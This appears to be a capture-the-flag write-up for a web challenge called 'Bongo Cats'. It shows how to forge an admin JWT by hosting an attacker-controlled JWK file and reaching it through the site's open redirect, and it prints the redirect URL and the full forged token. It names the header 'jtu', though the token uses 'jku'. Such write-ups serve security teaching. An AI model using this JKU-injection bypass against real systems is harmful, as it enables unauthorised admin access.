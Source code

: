 # Bongo Cats

## Enumeration:

1) Site has three routes
```
    /login
    /redirect?uri=
    /dashboard
```

2) On login a jwt is set with `user` value and the jwt uses a hosted jwk file for authentication using the `jtu` field
3) The token is saved in cookies 
4) On trying `admin` username, the login page return an error indicating I can't use that username
4) The dashboard route displays the value of `user` in the jwt token 
4) Hence, it is understood I have to try and get a valid jwt token with `user:admin` in its claims
## Solution:

1) Generate custom jwk.json, and host online 
2) Generate new jwt with claim `user:admin` and `jtu` pointing to the custom jwk.json
3) The website blocked the above token, with the error that `jtu` does not match the provided jwk uri
4) This can be bypassed by using the `\redirect?uri=` route in the `jtu` field and pointing the `uri` query to the custom jwk file

```
http://34.133.45.223/redirect?uri=http://.../jwk.json
```
5) The dashboard route now returns the flag

## Evil JWT
`eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly8zNC4xMzMuNDUuMjIzLz9yZWRpcmVjdF91cmk9aHR0cDovLzE1OS44OS4xNjEuODc6ODA4MC8ud2VsbC1rbm93bi9qd2tzLmpzb24iLCJraWQiOiJjMUs0bDBrSmJEeS1DYlVualdjaWNxaVZEYVJYRUNSbWVDcEFsaDFIMWxrIiwidHlwIjoiand0In0.eyJ1c2VyIjoiYWRtaW4ifQ.Zm-K1UglgoPyDPxgCmkhfTBum8yz_xUKtjcOO6qW3ufi1ytimbfNQsVX6WoTv_BlOQ4VFSgvsIRKeBZ3O5BRt-VQq4_TmRCjxs8VHOHS8TYIB75f1_DbrsyzKxYa2P_mdVc27eZG1g8MhtTkvEEj5a7Y2ZTA_s1zy9JGg6FGZXTF5pFLyqG3ZN_lzbiPO2KJeqDNt9-2AXpkDxDNbtEs7Rf2otYiwiGnb8b5XvAeewLPdzvfBOlDhMbfush2-XONtXNS3XUQth9I1-BzERrQ6rx70cUurcuYy177TPi6NHhLn0YOqAH6Pg6TEXJ5NGLihXF4NKMpPNv7gO069zpA3Q`
